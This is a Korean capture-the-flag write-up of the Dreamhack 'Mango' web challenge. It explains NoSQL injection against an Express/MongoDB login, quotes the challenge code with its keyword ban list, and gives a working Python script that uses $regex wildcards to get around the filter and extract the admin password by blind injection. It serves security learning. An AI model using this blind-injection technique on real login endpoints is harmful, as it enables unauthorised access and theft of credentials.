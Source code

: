 ```yaml
---
layout: post
title: Dreamhack | Mango
subtitle: Dreamhack Mango
categories: Web
tags: [Pentest, Web]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/209768468-a99abf9b-8cb2-470f-91ae-6f699275514d.png" width = 500> 
</p>

해당 커리큘럼은 **NoSQL Injection**으로 **Not Only SQL Injection**이다.

NoSQL로 대표적인 MongoDB를 Injection하는 문제입니다.

`{‘uid’: ‘admin’, ‘upw’: ‘DH{32alphanumeric}’}`로 기본적인 힌트를 제공한 상태입니다.

## 문제 풀이

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/209769011-290527da-cee8-486b-80b6-898d5b7a8f46.png" width = 360> 
</p>

처음 접속했을 때의 화면이다. `/login?uid=guest&upw=guest`의 힌트가 있기에 `http://host3.dreamhack.games:22541/login?uid=guest&upw=guest`로 접속하면 **guest** 문자열만을 출력한다.

`upw=a`로 변경하여 접속하게 되면 **undefined**를 출력한다.

위에서 나온 힌트 **admin**의 upw를 알아내는 것이 목표가 될 것이다.

아래는 제공 파일이고, 각각을 분석해보겠습니다.

```javascript
app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

`/` 루트로 접근했을 때 위 사진처럼 파라미터에 대한 String을 출력해준 것을 알 수 있다.

```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
```

`filter` 함수는 우리가 **/login**을 통해 넘긴 파라미터에 대한 값이 `BAN`에 포함 되어 있다면 Boolean을 return하는 함수다.

```javascript
app.get('/login', function(req, res) {
    if(filter(req.query)){ // <-------  Type Vulnerability
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});
```

필터링을 거치고 uid와 upw 변수에 할당하여 DB 조회시 값이 있다면 uid를 출력하는 홈페이지가 되겠습니다.

하지만, 주석 부분을 보면 쿼리에 대한 타입 검사를 진행하지 않기에 `json, string, object, list` 등 어떤 타입으로 전달이 가능하게 된다.

참과 거짓에 대한 결과가 나타나므로 Blind Injection을 진행하겠습니다.

현재, **admin**과 **DH**가 필터링 되어 있으므로 정규식을 이용해 우회하고, 플래그는 32자리 알파벳으로 정해져있다고 했으므로, 익스플로잇을 짜면 아래와 같게 된다.

```python
import requests, string
from tqdm import *

HOST = 'http://host3.dreamhack.games:22541'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''
for i in tqdm(range(32)):
    for ch in ALPHANUMERIC:
        {% raw %}
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        {% endraw %}
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```

`uid[$regex]=ad.in`의 `.`을 통해 admin과 DH 필터링을 우회하고 기존 Blind SQLi와 동일한 방식으로 익스플로잇하면 FLAG를 얻을 수 있다.